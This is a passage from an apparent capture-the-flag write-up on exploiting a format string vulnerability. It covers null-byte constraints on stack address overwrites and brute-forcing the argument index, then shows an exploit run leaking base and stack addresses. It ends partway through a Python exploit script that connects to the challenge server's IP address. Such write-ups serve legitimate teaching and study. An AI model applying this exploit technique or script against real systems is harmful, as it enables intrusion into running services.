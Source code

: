 Note: the exact layout of the format string is chosen such that the stack address is overlapping with an actuall address on the stack. Because we can't send null-bytes, if we overwrite something else, the pointer would be mangled:

```
before: 0xdeadbeef 0xcafebabe
after:  0x504ddb66 0x7fff00be -> stack address is invalid, pointing to 0xbe007fff....

should be:

before: 0xdeadbeef 0xcafe0000
after:  0x504ddb66 0x7fff0000 -> properly set stack address
```

Locally, I identified both the arguments 15 and 41 (in the first format string vuln) to contain the right stack address. Remotely, these contained something different. However, I simply increased the number until I hit 43: this address, combined with the offset, contained the return address! I definitely lucked out after banging my head against the challenge for a few hours.

Hitting the jackpot
-------------------

```bash
$ python poc.py 43

[+] Leaked address of base: 0x7f48589d5000
[+] Leaked address of stack: 0x7fffb65656b0
[+] Offset format string with 24497 bytes
AAAAAAABBBC
           b.XH..TV...
0x7f48589d620c
you're looking for 0x7f48589d620c
Found at 43
```

Armed with the correct stack address, I could now trivially overwrite two bytes of the saved return address so that it points to the function that read the flag and dumps it over the socket:

```python
from socket import *
import struct, telnetlib, re, sys

def readtil(delim):
    buf = b''
    while not delim in buf:
        buf += s.recv(1)
    return buf

def sendln(b):
    s.send(b + b'\n')

def sendbin(b):
    s.sendall(b)

def q(x):
    return struct.pack('<Q', x)

def pwn():
    global s
    s=socket(AF_INET, SOCK_STREAM)
    #s.connect(('localhost', 6666))
    s.connect(('202.112.26.107', 10910))
    
    #raw_input()
    
    readtil('Login: ')
    sendln('guest')
```